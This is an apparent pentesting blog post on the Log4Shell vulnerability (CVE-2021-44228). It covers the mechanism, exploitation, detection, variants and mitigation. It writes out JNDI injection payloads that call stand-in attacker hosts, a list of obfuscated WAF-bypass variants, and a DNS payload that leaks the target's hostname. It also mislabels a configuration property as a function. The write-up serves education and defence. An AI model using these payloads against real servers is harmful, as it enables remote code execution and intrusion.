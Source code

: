 ```yaml
---
layout: single
title: '<span class="post">Log4Shell (CVE-2021-44228) Explanation of vulnerability | Pentesting </span>'
excerpt: "The Log4Shell vulnerability has been revolutionising companies since it was discovered, in this post I will tell you what it is, how to detect it, exploit it and mitigate it."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
  image_description: log4shell
categories:
  - post
  - article
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cybersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualisation

The RCE vulnerability occurs because the `log4j2.formatMsgNoLookups` function in the JNDI library, which is used to access external resources or Java references, does not perform a correct control of the loaded value, then with LDAP we indicate where we want to access. So, the attacker can send a request, either:

- To obtain resources through code injection previously encoded in Base 64.
- To obtain a reverse shell connection by remotely uploading a file written in Java and already compiled, `Exploit.class`, which will be interpreted when uploaded by the server.
- Execution of arbitrary code on the target server.

As the server downloads, stores and loads whatever it gets from the external resource (in the case of an attacker, its own server).

# Exploit

The payload commonly takes the format `${jndi:ldap://IP_ATACKER_SERVER/file}`.

- The attacker sends a manipulated parameter (e.g. ?x=) to the server (via HTTP or another protocol). For example the following string: `${jndi:ldap://malicious-site.com/exp}` via a GET request.
- The vulnerable server receives the request with the *payload*.
- The vulnerability in *Log4j* allows the *payload* to be executed and the server makes a request to the attacker's site. The request is made via the JNDI protocol.
- The response from the attacker's server contains a remote Java file (e.g. an *exploit.class* file) that is injected into the process running on the vulnerable server.
- Code is executed on the vulnerable server.

<a href="/assets/images/log4shell/log4shell/exploit.png"><img src="/assets/images/log4shell/exploit.png" alt="log4shell explotation"></a>

Although the payload can be intercepted by a WAF easily, it can be bypassed in any number of ways:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

These consist of varying and trying not to send the payload in a clear way.

There is also another protocol that can be exploited, `rmi` which can be used with the `mashalsec` utility and is seen in the last payload shown.

<a href="/assets/images/log4shell/defenses.png"><img src="/assets/images/log4shell/defenses.png" alt="log4shell defenses"></a>

> Note: It must be taken into account that each 4j product affected (Apache, Cisco, RedHat, Citrix, etc... ) is exploited differently depending on its configuration and network architecture (in most of them it is enough to modify the payload to bypass possible WAFs).
> 

# Detection

To detect the vulnerability without causing damage to the asset, we must perform the steps shown in the Exploitation section. But trying to use a payload that we simply access to our server, for example: `${jndi:ldap://IP_SERVER_ATACANTE}`.

Subsequently, when launched with either that payload or a bypass variant, if we receive a request on our server, we will be able to confirm that our target is vulnerable.

There are several options when intercepting the request:

- Mount HTTP server to capture incoming requests (e.g. with Python) to confirm that the request to the server we were targeting in the injected code has been received.
- We can use a DNS server to help us, so that by encoding the name of the target in the request, the request is received with the name of the affected host, thus confirming that it is vulnerable.
    
    Example: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`.
    
- Using Nuclei and using `interactsh` as the server receiving requests.
    - Link to Nuclei template(https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Vulnerability variants

- CVE-2021-45046
    
  * This variant allows to generate a denial of service (DoS) attack, this vulnerability has a relatively low severity and a high complexity of exploitation.
    
  * This variant exploits the same JNDI vulnerability, but unlike Log4Shell, this one, thanks to the control over the Thread Context Map (TCM) when not using a default design pattern, can create malicious input data through a JNDI search pattern that leads to a DoS attack.
    

# Affected Versions

Log4j 2.0 to 2.14.1

# Mitigation

Upgrade the library to `Log4j 2.17`.

- **CVE-2021-44228:**
    - The affected functionality has been completely removed.
- **CVE-2021-45046:**
    - Removed support for message search patterns and disabled JNDI functionality by default.
